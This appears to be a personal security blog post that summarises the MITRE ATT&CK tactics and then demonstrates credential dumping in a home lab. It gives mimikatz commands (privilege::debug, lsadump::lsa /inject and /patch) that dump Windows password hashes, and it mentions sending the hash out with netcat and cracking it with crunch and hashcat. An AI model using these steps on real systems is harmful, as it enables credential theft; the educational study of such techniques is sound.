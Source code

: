 ```yaml
---
layout: post
title: "What is MITRE ATT&CK?"
date: 2023-10-19 16:45:59 +0400
---
```


![MITRE ATTACK](https://www.picussecurity.com/hubfs/Comp%201_2.gif)

*MITRE ATTA&CK* stands for *MITRE Adversarial Tactics,Techniques and Common Knowledge (ATT&CK)*. *MITRE ATTA&CK Framework* is knowledge base model for various malicious threats. This framework was created in 2013 by the *MITRE* corporation. Then this freamwork created based on real-world observations and it continues to evolve with the threat landscape.  

*MITRE ATTA&CK* Freamwork has tree main components:
- **Tactics**: This denotes the goals that the threat actor may want to achieve in order to attack the system.
- **Techniques**: This defines the ways that the threat actor uses to achieve tactical goals.
- The framework also contains documented details about previous usage of the techniques.

This Framework has different Matrices, and the most famous matrix is Enterprise Matrix. Enterprise Matrix describes the tactics and techniques used by threat actors against enterprise platforms.  

Some tactics mentioned under the Enterprise matrix are:
1. **Reconnaissance**: Covertly gathering information about a target or targets for planning an attack.
2. **Resource Development**: Deciding on information to carry out an attack.
3. **Initial Access**: Establishing an initial foothold over a system by gaining access.
4. **Execution**: Deployment of the tools to carry put the attack.
5. **Persistence**: maintaning presence over a network even if mitigation techniques have been employed.
6. **Privilege Escalation**: Getting much higher level controls such as administrator level or root level controls.
7. **Defense Evasion**: Attempting to bypass the security mechanisms implemented on the network for protection.
8. **Credential Access**: Gaining access to some important usernames and passwords.
9. **Discovery**: Trying to figure out the target environment.
10. **Lateral Movement**: It means going deep into the target network to get some sensitive information that could compromise the system.
11. **Collection**: Collecting of data about the target that can help to achieve a goal.
12. **Command & Control**: Once all kinds of access has been gained. Attacker uses this tactic to finally establish contol over the network or system.
13. **Exfiltration**: Stealing data from the compromised system.
14. **Impact**: Manipulation, interruption or destruction of system and the data inside.

Briefly, this framework is one such tool for individuals, organizations and governments to avoid their systems and networks becoming targets for malicious actors in cyberspace.

Let's try an Operating System Credential Dumping section in the *MITRE ATTA&CK Matrix*.

![Screenshot_2023-10-20_00-13-28](https://github.com/3xg3lin/3xg3lin.github.io/assets/73038148/176d7f6d-d567-4514-9854-74437b2dc36c)

Now let's go to the Windows machine and set up the requirements to get ready to receive some credentials.

First of all, you should install one of the mimikatz, bloodhound programs.  
Or you can do it manually if you have gained a shell in the system.(click to reach [cheatsheet](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993))  
I chose mimikatz (it's optional)  
Then I ran mimikatz.  
After then I check the mimikatz is running an administrator with the following code:  
```
privilege::debug
```
Now I need the dump hash with mimikatz:  
```
lsadump::lsa /inject
lsadump::lsa /patch
```
you can use one of the above code.(first one is suit for me)  

![mimikatz](https://github.com/3xg3lin/3xg3lin.github.io/assets/73038148/47d28277-7210-48f7-94d2-d353d6a79457)

Now you see the hash.  
Notice that the Windows default user ID starts at 1000, and 500 for Administrator.  
After then I send the hash my pc using netcat.  

![netcat](https://github.com/3xg3lin/3xg3lin.github.io/assets/73038148/697925ae-f5fe-46fc-ad06-1cd06ae78cf9)

And try to crack hash with hashcat but first i need to create a password list.  
To do that I write this simple code:  
```
#include<stdio.h>

int main(){
    for (int i=0;i<124;i++){
	    printf("%d\n",i);
    }
}
```
If you want to do that with crunch.  
```
crunch 3 3 0123456789 > password.txt
```
Now crack time...  

![2023-10-20_00-07](https://github.com/3xg3lin/3xg3lin.github.io/assets/73038148/ff674098-d969-4b98-925c-5e9edc054ab2)  

![2023-10-20_00-08](https://github.com/3xg3lin/3xg3lin.github.io/assets/73038148/12029ff1-6a76-45ae-ad9a-f3f89618a5ad)

You can see the password next to the hash in the picture above.
